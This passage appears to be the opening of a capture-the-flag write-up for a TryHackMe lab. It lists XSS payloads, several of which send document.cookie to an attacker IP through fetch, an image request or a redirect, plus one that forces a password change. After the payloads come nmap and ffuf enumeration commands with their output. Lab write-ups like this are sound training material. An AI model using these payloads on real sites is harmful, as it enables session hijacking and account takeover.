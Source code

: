 - `<script>fetch('http://10.2.37.37/?'+btoa(document.cookie));</script>`
- `<script>var i=new Image(); i.src="http://10.2.37.37/?cookie="+document.cookie;</script>`
- `<script>document.location="http://10.2.37.37/cookie?c="+document.cookie</script>`
- `<script>alert(1)</script>`
- `<script>fetch('/change_password.php',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:"new_password=overthenethere"});</script>`

### Laboratory Environment

[TryHackMe | Cyber Security Training](https://tryhackme.com/r/room/whatsyourname)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt --min-rate=1000 --max-retries=3 -Pn $target_ip`

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 30:4d:33:80:d2:42:b7:79:de:bd:fd:34:db:56:7a:86 (RSA)
|   256 82:1d:3c:a7:ca:f8:ac:45:f8:43:28:31:2a:81:3b:cd (ECDSA)
|_  256 93:0f:bd:51:90:49:57:d3:32:71:3b:31:90:a5:79:dc (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Welcome
|_Requested resource was /public/html/
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
8081/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

> **Directory Scan & Endpoint Control**
> 

`ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://worldwap.thm/FUZZ' -ic -t 100 -mc 200,301,403`

```bash
public                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 317ms]
api                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 321ms]
javascript              [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 324ms]
phpmyadmin              [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 330ms]
```

`ffuf -w /usr/share/wordlists/dirb/big.txt -u 'http://worldwap.thm/api/FUZZ' -ic -t 100 -mc 200,301,403`

```bash
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 335ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 349ms]
```

